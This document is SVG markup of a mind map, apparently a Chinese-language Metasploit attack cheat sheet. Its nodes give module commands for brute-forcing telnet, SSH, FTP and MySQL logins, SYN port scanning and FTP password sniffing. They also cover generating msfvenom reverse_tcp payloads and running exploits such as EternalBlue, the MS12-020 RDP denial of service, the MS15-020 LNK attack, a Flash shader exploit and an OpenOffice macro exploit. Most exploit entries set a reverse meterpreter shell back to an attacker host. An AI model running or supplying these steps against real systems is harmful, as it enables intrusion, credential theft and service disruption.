        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="218" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1330)" ed:width="79" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L79,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">telnet爆破</tspan>
        </text>
    </g>
    <g id="220" ed:parentid="218" ed:height="25" transform="matrix(1,0,0,1,540,1252)" ed:width="265" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L265,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/scanner/telnet/telnet_login</tspan>
        </text>
    </g>
    <g id="222" ed:parentid="218" ed:height="25" transform="matrix(1,0,0,1,540,1283)" ed:width="36" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L36,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set</tspan>
        </text>
    </g>
    <g id="224" ed:parentid="218" ed:height="25" transform="matrix(1,0,0,1,540,1315)" ed:width="36" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L36,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set</tspan>
        </text>
    </g>
    <g id="226" ed:parentid="218" ed:height="25" transform="matrix(1,0,0,1,540,1346)" ed:width="187" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L187,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set USERPASS_FILE user.txt</tspan>
        </text>
    </g>
    <g id="228" ed:parentid="218" ed:height="25" transform="matrix(1,0,0,1,540,1378)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="230" ed:parentid="218" ed:height="25" transform="matrix(1,0,0,1,540,1409)" ed:width="142" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L142,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">options看情况填数据</tspan>
        </text>
    </g>
    <g id="232" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1519)" ed:width="64" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L64,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">ssh爆破</tspan>
        </text>
    </g>
    <g id="234" ed:parentid="232" ed:height="25" transform="matrix(1,0,0,1,525,1441)" ed:width="235" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L235,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/scanner/ssh/ssh_login</tspan>
        </text>
    </g>
    <g id="236" ed:parentid="232" ed:height="25" transform="matrix(1,0,0,1,525,1472)" ed:width="175" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L175,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhosts xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="238" ed:parentid="232" ed:height="25" transform="matrix(1,0,0,1,525,1504)" ed:width="146" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L146,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set username xxxxxx</tspan>
        </text>
    </g>
    <g id="240" ed:parentid="232" ed:height="25" transform="matrix(1,0,0,1,525,1535)" ed:width="144" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L144,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set password xxxxxx</tspan>
        </text>
    </g>
    <g id="242" ed:parentid="232" ed:height="25" transform="matrix(1,0,0,1,525,1567)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="244" ed:parentid="232" ed:height="25" transform="matrix(1,0,0,1,525,1598)" ed:width="142" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L142,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">options看情况填数据</tspan>
        </text>
    </g>
    <g id="246" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1645)" ed:width="70" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L70,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">端口扫描</tspan>
        </text>
    </g>
    <g id="248" ed:parentid="246" ed:height="25" transform="matrix(1,0,0,1,531,1630)" ed:width="234" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L234,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/scanner/portscan/syn</tspan>
        </text>
    </g>
    <g id="250" ed:parentid="246" ed:height="25" transform="matrix(1,0,0,1,531,1661)" ed:width="175" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L175,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhosts xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="252" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1708)" ed:width="89" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L89,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">ftp密码嗅探</tspan>
        </text>
    </g>
    <g id="254" ed:parentid="252" ed:height="25" transform="matrix(1,0,0,1,550,1693)" ed:width="194" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L194,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/sniffer/psnuffle</tspan>
        </text>
    </g>
    <g id="256" ed:parentid="252" ed:height="25" transform="matrix(1,0,0,1,550,1724)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="258" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1819)" ed:width="62" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L62,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">ftp爆破</tspan>
        </text>
    </g>
    <g id="260" ed:parentid="258" ed:height="25" transform="matrix(1,0,0,1,523,1756)" ed:width="231" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L231,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/scanner/ftp/ftp_login</tspan>
        </text>
    </g>
    <g id="262" ed:parentid="258" ed:height="25" transform="matrix(1,0,0,1,523,1787)" ed:width="175" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L175,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhosts xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="264" ed:parentid="258" ed:height="25" transform="matrix(1,0,0,1,523,1819)" ed:width="140" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L140,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set user_file user.txt</tspan>
        </text>
    </g>
    <g id="266" ed:parentid="258" ed:height="25" transform="matrix(1,0,0,1,523,1850)" ed:width="142" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L142,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set pass_file pass.txt</tspan>
        </text>
    </g>
    <g id="268" ed:parentid="258" ed:height="25" transform="matrix(1,0,0,1,523,1882)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="270" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,1976)" ed:width="73" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L73,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">msql爆破</tspan>
        </text>
    </g>
    <g id="272" ed:parentid="270" ed:height="25" transform="matrix(1,0,0,1,534,1913)" ed:width="267" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L267,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/scanner/mysql/mysql_login</tspan>
        </text>
    </g>
    <g id="274" ed:parentid="270" ed:height="25" transform="matrix(1,0,0,1,534,1945)" ed:width="175" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L175,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhosts xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="276" ed:parentid="270" ed:height="25" transform="matrix(1,0,0,1,534,1976)" ed:width="135" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L135,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set user_file xxx.txt</tspan>
        </text>
    </g>
    <g id="278" ed:parentid="270" ed:height="25" transform="matrix(1,0,0,1,534,2008)" ed:width="143" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L143,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set pass_file xxxx.txt</tspan>
        </text>
    </g>
    <g id="280" ed:parentid="270" ed:height="25" transform="matrix(1,0,0,1,534,2039)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="282" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,2071)" ed:width="117" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L117,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">meterpreter使用</tspan>
        </text>
    </g>
    <g id="284" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,2118)" ed:width="109" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L109,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">msfvenom使用</tspan>
        </text>
    </g>
    <g id="286" ed:parentid="284" ed:height="25" transform="matrix(1,0,0,1,570,2102)" ed:width="313" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L313,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">msfvenom -p windows/meterpreter/reverse_tcp</tspan>
        </text>
    </g>
    <g id="288" ed:parentid="284" ed:height="25" transform="matrix(1,0,0,1,570,2134)" ed:width="187" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L187,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">可加-e编码，-i 编码次数等等</tspan>
        </text>
    </g>
    <g id="290" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,2238)" ed:width="167" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L167,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">cve-2012-0002蓝屏攻击</tspan>
        </text>
    </g>
    <g id="292" ed:parentid="290" ed:height="25" transform="matrix(1,0,0,1,628,2190)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="294" ed:parentid="292" ed:height="25" transform="matrix(1,0,0,1,699,2175)" ed:width="70" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L70,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">影响版本</tspan>
        </text>
    </g>
    <g id="296" ed:parentid="294" ed:height="44" transform="matrix(1,0,0,1,796,2165)" ed:width="514" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,44L514,44" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Microsoft Windows XPMicrosoft Windows VistaMicrosoft Windows Server </tspan>
            <tspan y="35.2" style="white-space:pre" x="8">2008Microsoft Windows Server 2003 Microsoft Windows 7</tspan>
        </text>
    </g>
    <g id="298" ed:parentid="292" ed:height="25" transform="matrix(1,0,0,1,699,2216)" ed:width="135" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L135,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">可导致远程代码执行</tspan>
        </text>
    </g>
    <g id="300" ed:parentid="290" ed:height="25" transform="matrix(1,0,0,1,628,2279)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="302" ed:parentid="300" ed:height="25" transform="matrix(1,0,0,1,699,2247)" ed:width="374" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L374,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use auxiliary/dos/windows/rdp/ms12_020_maxchannelids</tspan>
        </text>
    </g>
    <g id="304" ed:parentid="300" ed:height="25" transform="matrix(1,0,0,1,699,2279)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="306" ed:parentid="300" ed:height="25" transform="matrix(1,0,0,1,699,2310)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="308" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,2487)" ed:width="301" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L301,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Microsoft Windows Shell LNK Code Execution</tspan>
        </text>
    </g>
    <g id="310" ed:parentid="308" ed:height="25" transform="matrix(1,0,0,1,762,2392)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="312" ed:parentid="310" ed:height="25" transform="matrix(1,0,0,1,833,2342)" ed:width="178" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L178,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">CVE-2015-0096	</tspan>
        </text>
    </g>
    <g id="314" ed:parentid="310" ed:height="25" transform="matrix(1,0,0,1,833,2392)" ed:width="70" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L70,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">影响版本</tspan>
        </text>
    </g>
    <g id="316" ed:parentid="314" ed:height="63" transform="matrix(1,0,0,1,930,2373)" ed:width="514" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,63L514,63" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Windows Server 2003 SP2, Windows Vista SP2, Windows Server 2008 SP2 and </tspan>
            <tspan y="35.2" style="white-space:pre" x="8">R2 SP1, Windows 7 SP1, Windows 8, Windows 8.1, Windows Server 2012 Gold </tspan>
            <tspan y="54.2" style="white-space:pre" x="8">and R2, and Windows RT Gold and 8.1 </tspan>
        </text>
    </g>
    <g id="318" ed:parentid="310" ed:height="25" transform="matrix(1,0,0,1,833,2443)" ed:width="96" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L96,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">远程代码执行</tspan>
        </text>
    </g>
    <g id="320" ed:parentid="308" ed:height="25" transform="matrix(1,0,0,1,762,2553)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="322" ed:parentid="320" ed:height="25" transform="matrix(1,0,0,1,833,2474)" ed:width="393" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L393,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/windows/smb/ms15_020_shortcut_icon_dllloader</tspan>
        </text>
    </g>
    <g id="324" ed:parentid="320" ed:height="25" transform="matrix(1,0,0,1,833,2506)" ed:width="36" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L36,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set</tspan>
        </text>
    </g>
    <g id="326" ed:parentid="320" ed:height="25" transform="matrix(1,0,0,1,833,2537)" ed:width="300" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L300,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set payload windows/meterpreter/reverse_tcp</tspan>
        </text>
    </g>
    <g id="328" ed:parentid="320" ed:height="25" transform="matrix(1,0,0,1,833,2569)" ed:width="167" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L167,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set lhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="330" ed:parentid="320" ed:height="25" transform="matrix(1,0,0,1,833,2600)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="332" ed:parentid="320" ed:height="25" transform="matrix(1,0,0,1,833,2632)" ed:width="320" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L320,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">复制msf.lnk到一个分享文件夹，victim打开分享触发</tspan>
        </text>
    </g>
    <g id="334" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,2789)" ed:width="383" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L383,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Adobe Flash Player Drawing Fill Shader Memory Corruption</tspan>
        </text>
    </g>
    <g id="336" ed:parentid="334" ed:height="25" transform="matrix(1,0,0,1,844,2679)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="338" ed:parentid="336" ed:height="25" transform="matrix(1,0,0,1,915,2663)" ed:width="115" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L115,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">cve-2015-3105</tspan>
        </text>
    </g>
    <g id="340" ed:parentid="336" ed:height="25" transform="matrix(1,0,0,1,915,2695)" ed:width="70" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L70,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">影响版本</tspan>
        </text>
    </g>
    <g id="342" ed:parentid="340" ed:height="25" transform="matrix(1,0,0,1,1012,2695)" ed:width="328" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L328,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">https://www.cvedetails.com/cve/CVE-2015-3105/</tspan>
        </text>
    </g>
    <g id="344" ed:parentid="334" ed:height="25" transform="matrix(1,0,0,1,844,2821)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="346" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2726)" ed:width="377" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L377,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/multi/browser/adobe_flash_shader_drawing_fill</tspan>
        </text>
    </g>
    <g id="348" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2758)" ed:width="119" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L119,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set SRVPORT 80</tspan>
        </text>
    </g>
    <g id="350" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2789)" ed:width="198" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L198,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set SRVHOST xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="352" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2821)" ed:width="300" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L300,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set payload windows/meterpreter/reverse_tcp</tspan>
        </text>
    </g>
    <g id="354" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2852)" ed:width="167" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L167,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set lhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="356" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2884)" ed:width="105" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L105,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set lport 2222</tspan>
        </text>
    </g>
    <g id="358" ed:parentid="344" ed:height="25" transform="matrix(1,0,0,1,915,2915)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="360" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,3010)" ed:width="445" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L445,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption</tspan>
        </text>
    </g>
    <g id="362" ed:parentid="360" ed:height="25" transform="matrix(1,0,0,1,906,2947)" ed:width="319" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L319,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/windows/smb/ms17_010_eternalblue</tspan>
        </text>
    </g>
    <g id="364" ed:parentid="360" ed:height="25" transform="matrix(1,0,0,1,906,2978)" ed:width="169" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L169,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set rhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="366" ed:parentid="360" ed:height="25" transform="matrix(1,0,0,1,906,3010)" ed:width="300" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L300,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set payload windows/meterpreter/reverse_tcp</tspan>
        </text>
    </g>
    <g id="368" ed:parentid="360" ed:height="25" transform="matrix(1,0,0,1,906,3041)" ed:width="167" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L167,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set lhost xxx.xxx.xxx.xxx</tspan>
        </text>
    </g>
    <g id="370" ed:parentid="360" ed:height="25" transform="matrix(1,0,0,1,906,3073)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="372" ed:parentid="102" ed:height="25" transform="matrix(1,0,0,1,434,3199)" ed:width="409" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L409,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Apache OpenOffice Text Document Malicious Macro Execution</tspan>
        </text>
    </g>
    <g id="374" ed:parentid="372" ed:height="25" transform="matrix(1,0,0,1,870,3120)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">相关</tspan>
        </text>
    </g>
    <g id="376" ed:parentid="374" ed:height="25" transform="matrix(1,0,0,1,941,3120)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">影响</tspan>
        </text>
    </g>
    <g id="378" ed:parentid="376" ed:height="25" transform="matrix(1,0,0,1,1012,3104)" ed:width="140" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L140,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">Apache OpenOffice</tspan>
        </text>
    </g>
    <g id="380" ed:parentid="376" ed:height="25" transform="matrix(1,0,0,1,1012,3136)" ed:width="90" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L90,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8"> LibreOffice</tspan>
        </text>
    </g>
    <g id="382" ed:parentid="372" ed:height="25" transform="matrix(1,0,0,1,870,3230)" ed:width="44" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L44,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">攻击</tspan>
        </text>
    </g>
    <g id="384" ed:parentid="382" ed:height="25" transform="matrix(1,0,0,1,941,3167)" ed:width="341" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L341,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">use exploit/multi/misc/openoffice_document_macro</tspan>
        </text>
    </g>
